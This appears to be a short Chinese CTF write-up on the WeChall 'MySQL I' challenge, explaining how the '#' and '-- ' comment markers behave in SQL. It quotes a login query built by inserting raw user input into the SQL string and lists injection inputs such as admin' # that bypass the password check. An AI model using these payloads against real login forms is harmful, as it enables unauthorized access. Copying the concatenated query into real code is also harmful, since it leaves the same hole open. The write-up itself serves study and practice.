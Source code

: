 ```yaml
---
title: WeChall_SQL
date: 2022-10-06
description: 关于#和--在sql中的具体用法
category: 信息安全
tags:
  - CTF
  - Web
  - SQL
---
```

# --和#的具体用法
`#`是php和sql中的注释，而`--`仅是sql语言中的注释,`--`在使用时后面必须有一个空格  
wechall原题是MySQL I，关键代码为`$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";`
这里的`#`和`--`都不是在php语句中发挥作用，因此不用闭合双引号
```
admin' ;#                           可以
admin' #                            可以，sql中也使用分号划分语句
admin' or 1=1;#                     不可以，此时没有以admin身份登录

Admin' -- yes i can                 可以
Admin' --yes i can                  不可以，--后面没有空格
Admin' --                           不可以，--后面没有空格（后面的句子会顶上来）
Admin' -- (a space here)            可以
```

 